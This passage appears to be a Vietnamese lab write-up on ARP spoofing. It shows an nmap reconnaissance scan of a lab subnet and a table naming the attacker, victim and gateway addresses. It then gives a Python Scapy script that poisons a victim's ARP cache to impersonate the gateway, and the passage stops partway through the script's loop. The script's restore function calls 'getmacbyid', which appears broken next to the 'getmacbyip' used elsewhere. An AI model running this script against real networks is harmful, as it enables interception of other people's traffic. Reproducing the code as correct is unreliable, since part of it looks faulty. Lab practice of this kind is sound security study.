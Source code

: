 ![image](https://hackmd.io/_uploads/rkFl307AT.png)

- để khách quan mình sẽ tiến hành reconnaissance với nmap

```bash
$ sudo nmap -sV -sC 192.176.45.1/24
```

- thu được thông tin của **routerwifi**

![ảnh](https://hackmd.io/_uploads/rJqKOa7Aa.png)

![ảnh](https://hackmd.io/_uploads/BkM3dpX0p.png)

![ảnh](https://hackmd.io/_uploads/B1IJFpXR6.png)

![ảnh](https://hackmd.io/_uploads/S1G-K6QCa.png)

- thu được thông tin của máy **Window 7**

![ảnh](https://hackmd.io/_uploads/SkbtK67Aa.png)

- chúng ta có thể thấy trong mạng có 3 thiết bị gồm::

  - **routerwifi Tp-Link**
  - **máy kali linux** ![ảnh](https://hackmd.io/_uploads/Sk7gfp7R6.png)
  - **máy window 7**
    ![ảnh](https://hackmd.io/_uploads/B1sQ8p706.png)

- vậy mình được ánh xạ địa chỉ mình dùng trong lab này là:

| Host                    | IP address       | MAC address         |
| ----------------------- | ---------------- | ------------------- |
| `Kali linux` (Attacker) | `192.176.45.101` | `34:6f:24:18:c9:2f` |
| `Window 7` (Victim)     | `192.176.45.102` | `0c:84:dc:f5:3c:79` |
| `Default Gateway`       | `192.176.45.1`   | `c0:61:18:e2:ef:72` |

mình sử dụng thư viện Scapy của Python để thực hiện tấn công ARP Spoofing

- thư viện này đã được cài đặt sẵn trên kali linux
- tấn công với đoạn script trong file **arpspoof.py** như sau:

```python
import scapy.all as scapy
import time

interval = 4
ip_target = input("Enter target IP: ")
ip_gateway = input("Enter gateway IP: ")

def spoof(target_ip, spoof_ip):
    packet = scapy.ARP(op = 2, pdst = target_ip, hwdst = scapy.getmacbyip(target_ip), psrc = spoof_ip)
    scapy.send(packet, verbose = False)

def restore(destination_ip, source_ip):
    destination_mac = scapy.getmacbyid(destination_ip)
    source_mac = scapy.getmacbyid(source_ip)
    packet = scapy.ARP(op = 2, pdst = destination_ip, hwdst = destination_mac, psrc = source_ip, hwsrc = source_mac)
    scapy.send(packet, verbose = False)

try:
    while True:
        spoof(ip_target, ip_gateway)
```